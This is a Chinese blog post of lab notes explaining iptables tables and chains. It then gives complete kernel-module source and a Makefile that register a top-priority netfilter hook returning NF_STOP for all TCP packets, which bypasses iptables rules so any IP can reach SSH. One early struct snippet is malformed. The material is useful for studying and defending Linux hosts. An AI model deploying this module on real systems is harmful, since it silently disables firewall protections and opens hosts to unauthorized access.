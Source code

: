 ```yaml
---
layout: post
title: "Netfilter and Iptables：netfilter模块绕过iptables规则"
date: 2020-09-08 
description: "netfilter模块绕过iptables规则"
tag: Linux攻防
---  
```


### 前言
本文介绍如何通过加载netfilter模块，使得不用修改iptables即可绕过规则。

本文为实验笔记，所以不对Netfilter以及iptsables进行过多的介绍，读者请先查阅相关知识再阅读本文。
### iptables 介绍及技术原理
![](/imag/20200908/1.png)
![](/imag/20200908/2.png)
![](/imag/20200908/3.png)
优先级次序（由高而低）：

raw --> mangle --> nat --> filter

------------------------------------------------------------------------------------
filter      表：负责过滤功能，防火墙；内核模块：iptables_filter

nat        表：network address translation，网络地址转换功能；内核模块：iptable_nat

mangle 表：拆解报文，做出修改，并重新封装 的功能；iptable_mangle

raw       表：关闭nat表上启用的连接追踪机制；iptable_raw

------------------------------------------------------------------------------------
PREROUTING      的规则可以存在于：raw表，mangle表，nat表。

INPUT                   的规则可以存在于：mangle表，filter表，（centos7中还有nat表，
centos6中没有）。
FORWARD           的规则可以存在于：mangle表，filter表。

OUTPUT               的规则可以存在于：raw表mangle表，nat表，filter表。

POSTROUTING   的规则可以存在于：mangle表，nat表。

------------------------------------------------------------------------------------
raw        表中的规则可以被哪些链使用：PREROUTING，OUTPUT

mangle  表中的规则可以被哪些链使用：PREROUTING，INPUT，FORWARD，OUTPUT，POSTROUTING

nat         表中的规则可以被哪些链使用：PREROUTING，OUTPUT，POSTROUTING（centos7中还有INPUT，centos6中没有）

filter       表中的规则可以被哪些链使用：INPUT，FORWARD，OUTPUT

------------------------------------------------------------------------------------
### 我们可以将数据包通过防火墙的流程总结为下图：

![](/imag/20200908/4.png)
 如何绕过iptables规则？

有如下场景：

centos7主机限制了ssh的22端口的登录，只能由特定的ip登录

iptables规则如下：

首先在INPUT链中丢弃了所有通往22端口的tcp包

iptables -I INPUT -p tcp --dport 22 -j DROP

然后设置白名单，只允许某一特定ip通过

iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT


从上面的命令中我们可以分析出，INPUT链中新添加了两条规则，拒绝所有的包以及设置白名单，-I参数表示插入，后面的白名单规则的优先级会高于前面的规则，所以iptables会首先放行来自192.168.71.1的TCP包，而来自其它ip的通往22端口的tcp包则会被另一条规则drop掉，从而达到22端口限制ip登录的功能。

接下来我们编写Netfilter模块，绕过iptables规则，使得任意ip都可以登录ssh

iptables的 INPUT 链对应 Netfilter 的HOOK点为 NF_INET_LOCAL_IN，iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT 这条规则就相当于使用netfilter 在NF_INET_LOCAL_IN hook点注册了一个回调函数，这个函数只允许该ip的数据包通过，iptables的源码其实也是这么做的

所以我们的 nf_hook_ops 结构体将像下面这样初始化：

    static struct nf_hook_ops anyssh_ops = {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
    }
hook回调函数：

我们过滤了tcp数据包，并且将所有的tcp包都返回 NF_STOP

NF_STOP表示报文通过了某个钩子函数的处理，后面的钩子函数你们就不要处理了，谁让你的优先级低呢，我就可以替你做主。假设NF_INET_LOCAL_IN中注册了两个钩子函数hook1和hook2，hook1的优先级高于hook2，hook2设定的处理结果是NF_DROP。如果hook1设定的处理结果是NF_ACCEPT，那么报文就不会递交给应用程序，因为hook2会把报文丢弃掉。如果hook1设定的处理结果是NF_STOP，那么报文就会提交给应用程序，因为hook1放行了，根本不会给hook2处理的机会。这个机制只在一个HOOK点的函数链中生效。也就是说iptables规则假设所处于的链为INPUT，则netfiler hook函数必须处于NF_INET_LOCAL_IN。

这么做的原因就是为了让iptables的规则失效，由于我们设置了 nfho.priority = NF_IP_PRI_FIRST; 我们的hook函数在INPUT这个链中处于最高优先级，只要直接返回NF_STOP，就没有后面iptbales什么事了，也就达到了任意ip都可以登录ssh的目的。

    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,STOP\n");
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }

### 完整Demo：
以下代码接管了所有tcp流量并return NF_STOP，读者可以参考添加更多过滤规则 比如过滤特定端口 或者特定ip等等
filter_tcp.c

    #include <linux/module.h>
    #include <linux/kernel.h>
    #include <linux/skbuff.h>
    #include <linux/ip.h>                  /* For IP header */
    #include <linux/netfilter.h>
    #include <linux/netfilter_ipv4.h>


    static struct nf_hook_ops nfho;


    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,drop\n");
                //return NF_DROP;
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }


    int init_module()
    {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        //nfho.hooknum  = NF_INET_PRE_ROUTING; /* First for IPv4 */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
        printk("init_module,filter_tcp\n");
        nf_register_hook(&nfho);


        return 0;
    }


    /* Cleanup routine */
    void cleanup_module()
    {
        printk("cleanup_module,filter_tcp\n");
        nf_unregister_hook(&nfho);
    }



Makefile

    MODULE_NAME:=filter_tcp
    ifneq ($(KERNELRELEASE),)
    mymodule-objs:=${MODULE_NAME}.o
    obj-m:=${MODULE_NAME}.o
    else
    PWD:=$(shell pwd)
    KVER:=$(shell uname -r)


    KDIR:=/lib/modules/$(shell uname -r)/build
    all:
        $(MAKE) -C $(KDIR) M=$(PWD)
    #clean:
        @rm -rf .*.com *.o *.mod.c  .tmp_versions modules.order Module.symvers
    install:
        echo ${KDIR}
        @insmod ${MODULE_NAME}.ko
    uninstall:
        @rmmod ${MODULE_NAME}.ko
    endif


### 参考链接：
http://www.zsythink.net/archives/1199

### 转载请注明出处

安全编程交流：NzgyNDIxODg3


